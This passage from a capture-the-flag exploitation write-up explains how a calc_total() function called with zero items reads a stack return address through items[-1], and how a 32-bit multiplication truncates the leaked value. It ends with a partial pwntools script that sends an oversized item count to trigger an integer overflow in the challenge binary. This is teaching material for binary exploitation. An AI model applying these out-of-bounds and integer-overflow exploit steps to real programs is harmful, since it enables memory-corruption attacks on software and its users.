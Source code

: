 And again, it pass 0 for `n` to calc_total(). Remember that when a program execute `call`, it will place the next instruction to the stack first, then jump to that function. In this case, before it jump to calc_total(), it will put the address `0x0000555555400b6c` to the stack and jump to it.

And in calc_total(), it will take `i = n-1` so with `n` is 0, `i` will be `-1` and `items[-1]` will point to that return address `0x0000555555400b6c`. So the total will be the multiplication of 4 lower bytes with 4 higher bytes of `0x0000555555400b6c`:

```python
total = 0x00005555 * 0x55400b6c = 0x1c6a920ea6dc
```

**BUT**, there is a bug here. We know that `Item.price` and `Item.quantity` is defined as `int32_t` so this code will make the calculation go wrong:

```c
total += items[i].price * items[i].quantity;
```

It actually multiplies two 32-bit variable and lead to a 32-bit result first, then assign it to a 64-bit variable. So if we have the address as above `0x0000555555400b6c`, after the multiplication, we can get `0x1c6a920ea6dc` theorily. But the actual value we can get is just 4 lower bytes of that result, which is `0x920ea6dc` and we lost 2 higher bytes.

Things get harder here, so first, let's write python script and make it go from the begining to here:

```python
#!/usr/bin/env python3

import subprocess
from pwn import *
import struct

exe = ELF("./chall_patched", checksec=False)
libc = ELF("./libc-2.31.so", checksec=False)
ld = ELF("./ld-2.31.so", checksec=False)

context.binary = exe
context.log_level = 'debug'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r

def input_data(price, quantity):
    p.sendlineafter(b'Price: $', f'{price}'.encode())
    p.sendlineafter(b'Quantity: ', f'{quantity}'.encode())

p = conn()

p.sendlineafter(b'Number of items: ', b'0x2000000000000000')
print(p.recvline())

p.interactive()
```
